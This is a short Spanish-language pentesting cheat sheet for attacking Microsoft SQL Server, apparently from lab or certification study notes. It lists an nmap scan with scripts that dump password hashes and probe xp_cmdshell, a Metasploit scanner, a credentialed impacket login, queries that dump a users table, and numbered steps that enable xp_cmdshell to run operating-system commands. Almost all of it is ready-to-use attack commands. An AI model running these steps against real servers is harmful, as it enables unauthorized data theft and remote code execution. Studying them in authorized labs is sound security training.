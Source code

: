 Usualmente usa los puertos tcp/1433 y UDP/1434

### Scan

    sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248

### metasploit:

    scanner/mssql/mssql_ping

### connecting:

    impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth

### Version

    SELECT @@version;

### Ver DBs:

    SELECT name FROM sys.databases;

### Ver tablas

    SELECT * FROM offsec.information_schema.tables;

### Dumpear una tabla

    select * from offsec.dbo.users;

---

# RCE

### 1)Iniciamos el advanced mode

    EXECUTE sp_configure 'show advanced options', 1;

### 2)Reconfiguramos

    RECONFIGURE;

### 3)Configuramos el xp_cmdshell

    EXECUTE sp_configure 'xp_cmdshell', 1;

### 4)Recondiguramos

    RECONFIGURE;
### 5) ejecutamos

    EXECUTE xp_cmdshell 'whoami';
